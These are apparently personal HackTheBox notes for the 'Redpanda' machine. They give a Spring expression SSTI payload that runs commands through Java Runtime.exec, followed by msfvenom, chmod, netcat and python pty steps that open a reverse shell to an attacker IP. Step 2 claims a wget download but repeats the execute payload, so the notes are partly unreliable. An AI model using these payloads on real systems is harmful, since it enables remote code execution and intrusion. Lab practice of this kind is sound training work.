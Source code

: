 # HackTheBox Redpanda machine notes

## SSTI
- For some reason always returning process instead of the command response
- Possible SSTI (POST HTTP endpoint /search) payload = "name='*{ssti}'" (not possible with dollar sign for some reason)

- Not let's remember that $ and _ characters are banned, so we need to use the SSTI-PAYLOAD generator that will encode it to another format
- The payload looks like this: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('the command').getInputStream())}


# How to estabilish reverse shell
1. Generate ELF file: msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=31337 -f elf > r.elf
2. Make the target download the file with wget like this: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('./r.elf').getInputStream())}
3. Give every permission to file: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('chmod 777 ./r.elf').getInputStream())}
4. Start netcat listener at our host and run the file at target: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('./r.elf').getInputStream())}
5. Make an interactive python shell like this: python -c 'import pty; pty.spawn("/bin/sh")'
